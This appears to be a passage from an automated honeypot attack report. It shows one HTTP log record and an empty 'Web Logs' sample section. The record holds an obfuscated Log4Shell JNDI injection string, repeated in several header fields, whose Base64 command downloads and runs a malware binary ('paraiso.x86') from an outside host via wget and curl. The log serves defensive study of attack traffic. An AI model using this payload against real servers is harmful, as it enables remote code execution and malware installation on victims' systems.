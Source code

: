 ````log
1706908204.683646	C7dLM77vS89HLbhDj	95.214.53.99	59090	172.31.5.68	8080	1	GET	54.67.87.80:8080	/	t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')	1.1	t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')	-	0	9226	200	OK	-	-	(empty)	-	-	X-FORWARDED-FOR -> t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')	-	-	-	FoHctR2DmHwv0G66O4	-	text/html	t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')	/

````

</details>

---


## Web Logs
Total Web logs: `310`

#### The `2` sessions in this attack were logged as connection in the following Web logs:
Here is a sample of the first `50` lines:

````json
````